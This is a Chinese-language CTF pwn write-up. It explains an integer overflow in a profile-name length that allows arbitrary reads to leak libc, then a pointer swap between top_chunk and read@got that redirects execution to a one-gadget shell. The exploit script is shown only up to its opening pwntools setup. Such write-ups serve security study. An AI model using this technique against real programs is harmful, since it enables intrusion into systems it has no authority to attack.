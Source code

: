 ![](https://ae01.alicdn.com/kf/HTB15yrSaUz1gK0jSZLeq6z9kVXap.jpg)  

Create Profile函数：  

![](https://ae01.alicdn.com/kf/HTB1Ep6UaRr0gK0jSZFnq6zRRXXaB.jpg)  

Print Profile函数：  

![](https://ae01.alicdn.com/kf/HTB1iNrTaNv1gK0jSZFFq6z0sXXaT.jpg)  

Update Profile函数：  

![](https://ae01.alicdn.com/kf/HTB1x6vTaKP2gK0jSZFoq6yuIVXac.jpg)  

Exchange函数：  

![](https://ae01.alicdn.com/kf/HTB1bifUaND1gK0jSZFKq6AJrVXa0.jpg)

这个题目有点难度，我花了三天才搞定，题目的流程不难，首先创建Profile，当名字的长度小于8的时候会把数据写入bss段，数据的长度值nbytes会放入数据的后面，大于8的时候会malloc一个空间，把输入写入堆中，而指针会保存在bss段，而数据的长度值nbytes也会保存在指针的后面，更新Profile的时候也会做相同的操作，打印数据的时候会把名字输出，可以用这个功能泄露程序任意地址的任意数据，Exchange可以交换两个地址的数据，可以利用这个来getshell  
先运行一下程序看一下这个程序干了啥：  

![](https://ae01.alicdn.com/kf/HTB16yrQaG67gK0jSZFHq6y9jVXaL.jpg)  

再看看程序开启了哪些保护:  

![](https://ae01.alicdn.com/kf/HTB1ciHTaNv1gK0jSZFFq6z0sXXaB.jpg)  

看到这个程序开了栈不可执行，于是肯定就会想到用rop来做  

这个程序有两个地方可以利用：  
+ （1）是创建的Profile，名字长度如果小于8就把数据写入bss段中，但是你可以输入负数，如果是负数的话，就可以造成整数溢出，你就可以在bss段中写入任意长度的数据，就可以覆盖后面的长度值nbytes为任意数值，这样你可以伪造一个任意长度的数据，在print函数中可以看到如果nbytes长度小于8就去读bss中的数据，如果nbytes大于8就会去读bss中的指针指向的数据，如果我们伪造nbytes的话就可以让print Profile函数去读任意地址的数据，通过got表可以计算出libc的基地址  
+ （2）是Exchange函数可以交换任意两个指针，但是两个指针都是要有写权限的，程序中权限可以通过vmmap来查看  

![](https://ae01.alicdn.com/kf/HTB1py2UaHH1gK0jSZFwq6A7aXXas.jpg)  

这个地方是难点，解决方法是：用top_chunk 指针和read@got指针进行交换，第二次堆分  
配时候可以分配到我想要的位置，就可以把想要数据写入read@got中，当下回调用read的时候就可以跳到MAGIC中getshell了，关于top_chunk的介绍可以参考[https://www.cnblogs.com/alisecurity/p/5486458.html](https://www.cnblogs.com/alisecurity/p/5486458.html)

我的exp

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'niexinming'

from pwn import *
import binascii
context(terminal = ['gnome-terminal', '-x', 'sh', '-c'], arch = 'i386', os = 'linux', log_level = 'debug')

localMAGIC=0x5fbc6
localmain_arena=0x001B2780

def debug(addr = '0x08048BA6'):
	raw_input('debug:')
	gdb.attach(io, "b *" + addr)

def base_addr(prog_addr,sysmbol,offset):
	if sysmbol=='min':
		return eval(prog_addr)-offset
	else:
		return eval(prog_addr) + offset
```